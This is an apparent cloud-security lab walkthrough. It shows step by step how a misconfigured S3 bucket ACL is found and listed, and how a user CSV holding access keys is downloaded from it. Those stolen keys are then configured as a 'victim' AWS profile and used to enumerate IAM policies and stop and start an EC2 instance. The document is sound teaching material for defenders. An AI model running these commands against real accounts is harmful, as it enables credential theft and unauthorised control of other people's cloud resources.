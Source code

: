 # ACL Authenticated group 


* Clone the repository 

```bash
git clone https://github.com/bvabhishek/misconfigured_acl.git
```
* Go to Directory 

```bash
 cd /misconfigured_acl
```
* change the permission of bucket_finder tool
```bash
chmod 777 bucket_finder.rb
```
* Lets use the bucket_finder tool to check our target bucket exist or not

```bash
./bucket_finder.rb my_words
```

* Go to the target URL and check if there is any attack scenario

    * https://vallabh.s3-us-west-2.amazonaws.com/

* Let's make the s3 bucket name as gloabal variable as we need to use it again

```bash
export s3bucket=<bucketname>
```
```bash
echo $s3bucket
```

* Let's try enumerating the S3 bucket by listing the object

```bash
aws s3 ls s3://$s3bucket

```

* Now lets try accessing it though our AWS profile (your own)

* if you havent configured your profile follow the below steps

```bash
aws configure --profile #your_profile
```

* Now try listing thew objects

```bash
aws s3 ls s3://$s3bucket --profile your_name
```

* Fish around the bucket 

```bash
aws s3 ls s3://vallabh/etc/ --profile your_name
```

* Download the juicy file (Relative path to your present working directory)

```bash
aws s3 cp s3://vallabh/etc/user.csv /home/we45-abhi/seasides/bucket_finder/ --profile your_name
```
//use sync 

* cat the csv file 

* configure the access key id and secret access key as attacker profile 

```bash
aws configure --profile victim

```
* Now check if you can access if any S3 objects present by using aws cli

```bash
aws s3 ls --profile victim
```

// abhi add ec2 full and iam readonly 

* Check the user profile 

```bash
aws sts get-caller-identity --profile victim
```
* lets try to pull out any s3 files

```bash
aws s3 ls --profile victim
```

* Now lets check the user policies attached to the user if any, to figure out which all resources he might have

```bash
aws iam list-attached-user-policies --user-name victim --profile victim
```

* we came to know that he has ec2 access, now check if any running ec2 instance

* lets check if any running ec2 instance 

```bash

aws ec2 describe-instances --profile victim --region us-west-2
```

* lets export the instance id i-083b2833c663866d1

```bash
export iId=<instance id>
```
```bash
echo $iId
```

* Copy the Public IP address and paste in browser

```bash
aws ec2 describe-instances --instance-ids $iId --region us-west-2 --query 'Reservations[0].Instances[0].PublicIpAddress' --output text --profile victim

```
* Open new terminal 

* Lets stop the instance 

```bash
aws ec2 stop-instances --instance-id $iId --profile victim --region us-west-2

```
// after a minute start the instance
* Lets stop the instance 

```bash
aws ec2 start-instances --instance-id $iId --profile victim --region us-west-2

```

* To check where may be the misconfiguration 
```bash
aws s3api get-bucket-acl --bucket $s3bucket --profile victim
```

* Another misconfiguration is providing excess policy such as "IAMReadOnlyAccess"

```bash 
aws iam list-attached-user-policies --user-name victim --profile victim
```
